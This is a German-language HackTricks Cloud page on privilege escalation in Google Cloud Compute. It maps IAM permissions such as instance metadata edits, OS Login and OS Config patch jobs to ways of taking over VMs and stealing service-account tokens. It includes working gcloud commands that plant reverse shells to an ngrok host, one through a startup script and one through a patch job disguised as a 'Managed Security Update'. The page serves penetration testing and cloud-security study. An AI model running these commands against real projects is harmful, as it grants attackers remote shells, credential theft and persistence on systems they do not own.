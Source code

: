 # GCP - Compute Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Compute

Für weitere Informationen über Compute und VPC (Netzwerk) in GCP siehe:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Beachte, dass du für die Durchführung aller Privilegieneskalationsangriffe, die eine Änderung der Metadaten der Instanz erfordern (wie das Hinzufügen neuer Benutzer und SSH-Schlüssel), **`actAs`-Berechtigungen über das an die Instanz angehängte SA benötigst**, selbst wenn das SA bereits angehängt ist!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Mit dieser Berechtigung kannst du die **Metadaten**-Informationen einer **Instanz** **ändern** und die **autorisierte Schlüssel eines Benutzers** **ändern** oder einen **neuen Benutzer mit sudo**-Berechtigungen **erstellen**. Daher wirst du in der Lage sein, über SSH in jede VM-Instanz zuzugreifen und das GCP-Servicekonto zu stehlen, mit dem die Instanz läuft.\
Einschränkungen:

* Beachte, dass GCP-Servicekonten, die standardmäßig in VM-Instanzen ausgeführt werden, einen **sehr eingeschränkten Geltungsbereich** haben.
* Du musst **in der Lage sein, den SSH**-Server zu kontaktieren, um dich anzumelden.

Für weitere Informationen darüber, wie du diese Berechtigung ausnutzen kannst, siehe:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Du könntest diesen Angriff auch durchführen, indem du ein neues Startskript hinzufügst und die Instanz neu startest:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Diese Berechtigung gibt die **gleichen Privilegien wie die vorherige Berechtigung**, jedoch über spezifische Instanzen anstelle eines gesamten Projekts. Die **gleichen Exploits und Einschränkungen wie im vorherigen Abschnitt gelten**.

### `compute.instances.setIamPolicy`

Diese Art von Berechtigung ermöglicht es Ihnen, **sich selbst eine Rolle mit den vorherigen Berechtigungen zu gewähren** und Privilegien durch deren Missbrauch zu eskalieren.

### **`compute.instances.osLogin`**

Wenn **OSLogin in der Instanz aktiviert ist**, können Sie mit dieser Berechtigung einfach **`gcloud compute ssh [INSTANCE]`** ausführen und sich mit der Instanz verbinden. Sie **werden keine Root-Rechte** innerhalb der Instanz haben.

{% hint style="success" %}
Um sich erfolgreich mit dieser Berechtigung innerhalb der VM-Instanz anzumelden, müssen Sie die Berechtigung `iam.serviceAccounts.actAs` über das an die VM angehängte SA haben.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Wenn **OSLogin in der Instanz aktiviert ist**, können Sie mit dieser Berechtigung einfach **`gcloud compute ssh [INSTANCE]`** ausführen und sich mit der Instanz verbinden. Sie werden **Root-Rechte** innerhalb der Instanz haben.

{% hint style="success" %}
Um sich erfolgreich mit dieser Berechtigung innerhalb der VM-Instanz anzumelden, müssen Sie die Berechtigung `iam.serviceAccounts.actAs` über das an die VM angehängte SA haben.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Es ist möglich, **eine virtuelle Maschine mit einem zugewiesenen Service-Konto zu erstellen und das Token** des Service-Kontos zu stehlen, indem man auf die Metadaten zugreift, um die Privilegien zu eskalieren.

Das Exploit-Skript für diese Methode finden Sie [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Wenn Sie die Berechtigungen **`osconfig.patchDeployments.create`** oder **`osconfig.patchJobs.exec`** haben, können Sie einen [**Patch-Job oder eine Bereitstellung**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) erstellen. Dies ermöglicht es Ihnen, lateral in der Umgebung zu bewegen und Codeausführung auf allen Compute-Instanzen innerhalb eines Projekts zu erlangen.

Beachten Sie, dass Sie im Moment **keine `actAs`-Berechtigung** über das an die Instanz angehängte SA benötigen.

Wenn Sie dies manuell ausnutzen möchten, müssen Sie entweder einen [**Patch-Job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **oder** eine [**Bereitstellung**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)** erstellen.**\
Für einen Patch-Job führen Sie aus:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Um ein Patch-Deployment bereitzustellen:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Das Tool [patchy](https://github.com/rek7/patchy) konnte in der Vergangenheit für das Ausnutzen dieser Fehlkonfiguration verwendet werden (aber jetzt funktioniert es nicht mehr).

**Ein Angreifer könnte dies auch für Persistenz ausnutzen.**

### `compute.machineImages.setIamPolicy`

**Gewähren Sie sich zusätzliche Berechtigungen** für das Compute-Image.

### `compute.snapshots.setIamPolicy`

**Gewähren Sie sich zusätzliche Berechtigungen** für einen Festplattensnapshot.

### `compute.disks.setIamPolicy`

**Gewähren Sie sich zusätzliche Berechtigungen** für eine Festplatte.

### Umgehung von Zugriffsberechtigungen

Folgen Sie diesem Link, um einige [**Ideen zur Umgehung von Zugriffsberechtigungen**](../) zu finden.

### Lokale Privilegieneskalation in GCP Compute-Instanz

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referenzen

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
